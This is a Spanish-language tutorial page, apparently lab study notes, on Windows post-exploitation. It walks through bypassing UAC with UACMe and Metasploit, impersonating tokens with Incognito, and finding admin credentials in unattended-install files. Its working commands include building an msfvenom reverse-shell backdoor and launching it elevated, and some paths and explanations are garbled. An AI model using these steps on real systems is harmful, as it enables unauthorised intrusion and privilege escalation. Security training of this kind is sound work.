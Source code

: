 <h1 align="center">POST EXPLOTACIÓN WINDOWS</h1>

## **Bypass UAC con UACMe**

El Control de Cuentas de Usuario (UAC) es la notificación que aparece en Windows cuando se intenta ejecutar un programa con permisos de administrador. UACMe es una herramienta que permite bypassear el UAC sin necesidad de ingresar la contraseña de un administrador local para elevar los privilegios de un programa.

### **Requisitos**

Es necesario tener control de un usuario dentro del grupo de administradores locales y que la configuración de UAC no se haya modificado desde la instalación de Windows.

### **Proceso**

Lo primero que debemos hacer es conseguir una sesión de meterpreter en la máquina víctima y migrarla a explorer.exe para conseguir una sesión de 64 bits.

![image](https://github.com/user-attachments/assets/516c78f1-b086-4d83-b71b-713da08df9f1)

Ahora, tenemos una sesión de meterpreter con el usuario admin. Este usuario está en el grupo de administradores locales, lo que le permite ejecutar programas con permisos de administrador, aunque dispone de bajos privilegios (por ejemplo, no puede ejecutar un payload con permisos de administrador)

![image](https://github.com/user-attachments/assets/89df7b86-ed70-4f44-b997-9dc96ee96168)

Para elevar los privilegios, nos descargamos el repositorio de UACMe desde github.

Vamos a bypasear el UAC para ejecutar este payload de msfvenom para crear una sesión de meterpreter con para aumentar nuestros privilegios:

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=\*ip\*LPORT=1234 -f exe > backdoor.exe`

Después, en Metasploit, utilizamos multi/handler y establecemos el mismo payload que en msfvenom:

- `set PAYLOAD windows/meterpreter/reverse_tcp`

Volvemos a la sesión de meterpreter, vamos a la carpeta C:\\temp y subimos nuestro payload y el ejecutable Akagy64:

- `upload backdoor.exe`
- `upload akagy64`
- `shell`

Para ejecutar backdoor.exe con permisos de administrador, utilizamos akagy64 con el siguiente comando CON RUTA COMPLETA:


- `.\akagy64 23 C:\\temp\\backdoor.exe`

La _key_ depende de la versión de Windows. El número a utilizar se encuentra en el repositorio de GitHub. Para instalar paquetes en Windows 7, utilizamos el número 23, que instala el packet manager, permitiendo la instalación de paquetes.

Si vamos al multi/handler y establecemos el mismo payload que en msfvenom, hemos conseguido una sesión de meterpreter de altos privilegios:

![image](https://github.com/user-attachments/assets/4195d38d-42bf-4660-8dfe-b7ff7fecb788)

Para conseguir el permiso de AUTHORITY/System, debemos migrar a otro proceso que esté ejecutando este usuario. Así, habremos pasado del usuario admin con altos privilegios al administrador local.

## **Bypass UAC con METASPLOIT**

- `use exploit/windows/local/bypassuac_injection`
- `set session 1`
- `set TARGET 1`
- `set PAYLOAD windows/x64/meterpreter/reverse_tcp`

## **ACCESS TOKEN IMPERSONATION**

### **Elevación de Privilegios Mediante Suplantación de Tokens en Windows**

Los tokens de acceso de Windows son el principal elemento del proceso de autenticación y son creados y distribuidos por el servicio "Local Security Authority Subsystem Service (LSASS)". Estos tokens son generados por winlogon.exe cada vez que un usuario se autentica correctamente. El token contiene información del usuario autenticado y los privilegios asociados a un proceso, y se utiliza para restringir el acceso de los usuarios, determinando qué pueden y no pueden ejecutar.

###

### **Tipos de Tokens de Acceso**

1. **Impersonate-level tokens (tokens suplantados):**
    - Permiten actuar totalmente como el usuario cuyo token estamos suplantando.
2. **Delegate-level tokens (tokens normales):**
    - Permiten actuar parcialmente como el usuario, con permisos limitados.

Para realizar el proceso de suplantación de un "Impersonate-level token" con la intención de elevar privilegios, el usuario al que tenemos acceso debe tener los siguientes privilegios:

![image](https://github.com/user-attachments/assets/2b359a2b-12fe-47d7-ba9d-489668ddaba2)

### **Uso de Incognito para Suplantar Tokens**

Incognito es una herramienta de meterpreter que permite suplantar tokens después de la explotación de una máquina. Aquí están los pasos detallados para su utilización:

1. **Acceso a la Máquina:**

- Una vez que hemos explotado una máquina y tenemos acceso a un usuario con bajos privilegios que tiene el privilegio de SeImpersonatePrivilege.

1. **Cargar Incognito en Meterpreter:**

Si no podemos migrar la sesión a otro proceso debido a la falta de permisos, cargamos Incognito:

- `load incognito`

1. **Listar Tokens Disponibles:**

- `list_tokens -u`

(Somos NT AUTHORITY\\LOCAL SERVICE y queremos suplantar el token del administrador)

![image](https://github.com/user-attachments/assets/d94e2866-ed62-47b1-8900-65d147235674)


1. **Suplantar el Token del Administrador:**

Suplantamos el token de acceso de “ATTACKDEFENSE\\Administrator”:

- `impersonate_token "ATTACKDEFENSE\\Administrator"`

![image](https://github.com/user-attachments/assets/bc9c98e1-74bc-4340-9821-a6ca7863cea4)

Con getuid podemos ver que ha cambiado nuestro usuario. Para poder comprobar nuestros privilegios sin que nos de ningún error tenemos que migrar la sesión a un servicio que lo esté ejecutando el usuario administrator, por ejemplo explorer.exe. Ahora comprobamos los privilegios del usuario:

![image](https://github.com/user-attachments/assets/fcc0b989-4a24-4fb1-8c33-25cb006c9d5b)

## **INSTALACIÓN DESATENDIDA**

Cuando se realiza una instalación desatendida (Proceso automático de instalación de Windows), se suele almacenar las credenciales del usuario administrador en las siguientes rutas:  

- `C:\\Windows\\Pather\\unattend.xml`
- `C:\\Windows\\Pather\\autounattend.xml`

Una vez localizamos este archivo podemos buscar la forma de logearnos con estas credenciales: psexec, winrm…
